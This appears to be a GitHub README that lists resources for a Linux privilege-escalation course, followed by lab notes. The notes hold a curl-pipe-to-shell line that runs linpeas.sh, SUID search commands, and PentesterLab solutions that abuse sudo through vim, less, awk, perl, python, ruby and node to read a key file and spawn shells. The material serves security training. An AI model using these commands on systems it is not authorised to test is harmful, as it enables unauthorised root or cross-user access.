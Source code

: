 # Linux-Privilege-Escalation-Resources
Compilation of Resources for TCM's Linux Privilege Escalation course

### General Links
TCM Website: https://www.thecybermentor.com/

TCM-Sec: https://tcm-sec.com/

Course: 
* https://www.udemy.com/course/linux-privilege-escalation-for-beginners/ (udemy)
* https://academy.tcm-sec.com/p/linux-privilege-escalation (tcm academy)

Twitch: https://www.twitch.tv/thecybermentor

Twitter: https://twitter.com/thecybermentor

YouTube: https://www.youtube.com/c/thecybermentor

TryHackMe: https://tryhackme.com/

LinuxPrivEscArena: https://tryhackme.com/room/linuxprivescarena

### Introduction
Basic Linux Priv Esc: https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

Linux Priv Esc PayloadAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

Linux Priv Esc Checklist: https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist

Sushant 747's Guide: https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html

### Exploring Automated Tools
LinPEAS: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

LinEnum: https://github.com/rebootuser/LinEnum

Linux exploit suggester: https://github.com/mzet-/linux-exploit-suggester

LinuxPrivChecker: https://github.com/sleventyeleven/linuxprivchecker

### Escalation Path: Kernel Exploits
Kernel Exploits: https://github.com/lucyoa/kernel-exploits

### Escalation Path: Sudo
GTFOBins: https://gtfobins.github.io/

LinuxPrivEscPlayground: https://tryhackme.com/room/privescplayground

wget example: https://veteransec.com/2018/09/29/hack-the-box-sunday-walkthrough/

dirsearch: https://github.com/maurosoria/dirsearch

CMS Made Simple ExploitDB: https://www.exploit-db.com/exploits/46635

CVE-2019-14287 ExploitDB: https://www.exploit-db.com/exploits/46635

CVE-2019-18634 GitHub: https://github.com/saleemrashid/sudo-cve-2019-18634

### Escalation Path: Other SUID Escalation
Nginx Exploit: http://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html

### Escalation Path: Capabilities
Priv Esc using Capabilities: https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

SUID vs. Capabilities: https://mn3m.info/posts/suid-vs-capabilities/

Capabilites Priv Esc w/ OpennSLL and Selinux enabled and enforced: https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099

________________________

### PRIVILEGE ESCALATION LAB

curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

https://github.com/jondonas/linux-exploit-suggester-2

https://gtfobins.github.io/

searchsploit Linux local kernel

find / -perm -u=s -type f 2>/dev/null
 
find / -perm -4000 2>/dev/null

find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

### Pentester LAB

```
find /home -name .bashrc -exec grep "check_ptlab_key" {} \;
```
# Unix 06: 
```
find /home -name .bashrc -exec grep export {} \; | grep PTLAB
```
```
sudo -u victim find /home
sudo -u victim find /home/victim/ -name key.txt -exec cat {} \;
sudo -u victim find /home/victim/ -name key.txt -exec /bin/bash \;
uid=1001(victim) gid=1001(victim) groups=1001(victim)
```

# Unix 27:      (Vim Privile Escalation)
```
sudo -l
sudo -u victim vim
:r /home/victim/key.txt
:!/bin/bash
uid=1001(victim) gid=1001(victim) groups=1001(victim)
```

# Unix 28:    (Less Privile Escalation)
```
sudo -l 
sudo -u victim less /home/victim/key.txt
sudo -u victim less /etc/passwd
/home/victim/key.txt
!/bin/bash
```

# Unix 29:     (Awk Privile Escalation)
```
sudo -u victim awk '{print $0}' /home/victim/key.txt
sudo -u victim awk '{system("/bin/bash")}'
```
  
# Unix 30:      (Setuid Privile Escalation)

# Unix 31:      (Perl Privile Escalation)
```
sudo -u victim perl -e 'print `cat /home/victim/key.txt`'
sudo -u victim perl -e '`/bin/bash`'
```

# Unix 32:      (Python Privile Escalation)
```
sudo -u victim python
import os
os.system('cat /home/victim/key.txt')
os.system('/bin/bash')
```

# Unix 33:     (Ruby Privile Escalation)
```
sudo -u victim /usr/bin/ruby -e'puts `cat /home/victim/key.txt`'
/usr/bin/ruby -e 'require "irb" ; IRB.start(__FILE__)'
```

# Unix 34:      (Node Privile Escalation)
```
sudo -u victim node -e 'var exec = require("child_process").exec;exec("cat /home/victim/key.txt", function (error, stdOut, stdErr) {console.log(stdOut);});'
sudo -u victim node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```


